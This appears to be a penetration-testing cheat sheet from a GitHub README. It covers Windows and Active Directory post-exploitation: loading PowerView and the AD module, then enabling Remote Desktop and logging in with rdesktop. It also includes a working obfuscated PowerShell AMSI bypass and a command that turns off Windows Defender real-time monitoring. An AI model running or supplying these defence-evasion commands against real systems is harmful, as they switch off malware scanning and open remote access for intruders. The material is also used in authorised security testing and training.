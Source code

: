 ### Using PowerView dev:
```powershell
. .\PowerView_dev.ps1
```
Link: [PowerView Dev](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

### Using AD Module
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```
Link: [AD Module](https://github.com/samratashok/ADModule)

# PowerShell AMSI Bypass
```powershell
# AMSI bypass
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
Link: [PowerShell AMSI Bypass](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

# Windows Defender

### Disable Windows Defender
```powershell
# Turn Off
Set-MpPreference -DisableRealtimeMonitoring $true
```
**Example:**

![Main Logo](images/Example_Defender01.PNG 'ExampleDefender')

# Remote Desktop

### Enable Remote Desktop
```powershell
# Turn On
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

### Login with remote desktop
```bash
# Login
rdesktop 172.16.20.20 -d corporate -u username -p password
```
